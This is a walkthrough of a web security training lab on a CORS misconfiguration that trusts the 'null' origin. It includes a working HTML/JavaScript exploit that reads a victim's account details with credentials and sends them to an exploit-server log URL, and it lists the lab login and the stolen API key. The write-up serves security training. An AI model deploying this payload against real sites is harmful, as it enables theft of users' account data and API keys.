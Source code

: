 # Lab 2: CORS vulnerability with trusted null origin

> Lab Objective: craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server.

- Login using provided credentials `wiener:peter`, then inspect login requests and responses.

- You'll notice that there is a `GET` request sent to `/accountDetails` that retrieves User's information.
  ![1st screenshot](./attachments/1.png)

- Send that `GET` request to the repeater, then:

  - Add `Origin: https://attacker.com` to the request headers, you'll notice that isn't reflected.
    ![3rd screenshot](./attachments/3.png)

    - But with `Origin: null`, it's reflected.
      ![4th screenshot](./attachments/4.png)

- Use this code to exploit the vulnerability:

```html
<!DOCTYPE html>
<html lang="en">
  <body>
    <iframe
      sandbox="allow-scripts allow-top-navigation allow-forms"
      src="data:text/html,<script>
      let req = new XMLHttpRequest();
      url =
        'https://0ab700b903b03109814b395c00d10007.web-security-academy.net/accountDetails';
      req.onload = reqlistener;
      req.open('GET', url, true);
      req.withCredentials = true;
      req.send();

      function reqlistener() {
        document.location = 'https://exploit-0a4a00fc03f6310b811a38bf01cb0021.exploit-server.net/log?key=' + this.responseText;
      }
    </script>"
    >
    </iframe>
  </body>
</html>
```

- Then access '/log' and search for administrator and extract his apikey = `8TOuSbZFmKPdQhzI2jTegu0f59qleaY2`
